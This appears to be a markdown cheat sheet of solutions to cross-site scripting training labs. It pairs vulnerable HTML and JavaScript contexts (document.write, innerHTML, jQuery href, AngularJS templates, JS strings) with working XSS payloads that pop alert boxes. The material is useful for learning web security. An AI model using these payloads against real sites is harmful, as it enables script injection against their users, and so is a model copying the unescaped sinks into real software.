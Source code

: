 # XSS

## XSS between HTML tags

### Reflected XSS into HTML context with nothing encoded
Search for: `<script>alert(1)</script>`

### Stored XSS into HTML context with nothing encoded
Post new comment: `<script>alert(1)</script>`

## XSS in HTML tag attributes

### Reflected XSS into attribute with angle brackets HTML-encoded
Context:
```html
<input maxlength="600" type="text" placeholder="Search the blog..." name="search" value="{HERE}">
```

Exploit:
```
" onfocus=alert(1) autofocus x="
```

### Stored XSS into anchor href attribute with double quotes HTML-encoded
Context:
```html
<a id="author" href="{HERE}">My web</a>
```

Exploit:
```
javascript:alert(1)
```

## DOM-based XSS

### DOM XSS in document.write sink using source location.search
Context:
```js
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
```

Exploit:
```
" onload="alert(1)"
```

### DOM XSS in document.write sink using source location.search inside a select element
Context:
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
...
document.write('</select>');
```

Exploit:
```
storeId=</option></select><script>alert(1)</script>
```

### DOM XSS in innerHTML sink using source location.search
Context:
```js
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```
Exploit:
```
<img src=0 onerror="alert(1)">
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
Context:
```js
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```
Exploit:
```
returnPath=javascript:alert(1)
```

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Context:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{HERE}'</h1>
```
Exploit:
```
{{$on.constructor('alert(1)')()}}
```

## XSS into JavaScript

### Reflected XSS into a JavaScript string with single quote and backslash escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
</script><script>alert(1)</script>
```

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
';alert(1);//
```

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
\';alert(1);// 
```
Trick is that the \ is also escaped!

### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Context:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track({HERE}');">Web</a>
```
Exploit:
```
http://foo.bar&apos;)alert(1);//
```

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
Context:
```js
var message = `0 search results for '{HERE}'`;
```
Exploit:
```
${alert(document.domain)}
```